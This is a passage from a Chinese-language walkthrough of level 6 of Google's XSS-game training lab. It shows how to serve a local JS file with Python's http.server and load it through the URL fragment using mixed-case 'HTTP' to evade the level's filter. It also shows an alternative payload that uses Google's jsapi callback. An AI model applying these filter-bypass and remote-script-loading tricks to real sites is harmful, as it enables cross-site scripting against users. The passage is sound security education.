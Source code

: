 然后保存

用我们python3自带的简易服务器用于其url访问

```sh
$ python -m http.server 8000
```

然后访问本地8000端口就可以看到本地文件了

然后构造url：`https://xss-game.appspot.com/level6/frame#HTTP://127.0.0.1:8000/temp.js`

注意，题目js源码中有对http的过滤

当然也可以用google的jsapi：`https://xss-game.appspot.com/level6/frame#hTTps://google.com/jsapi?callback=alert`



通关撒花

![](XSS-game_done.png)



最后通向了其XSS学习网站：https://www.google.com/about/appsecurity/learning/xss/index.html







## 构造一个XSS网站以及其对抗



通过上面的靶场练习已经很熟悉XSS的原理了
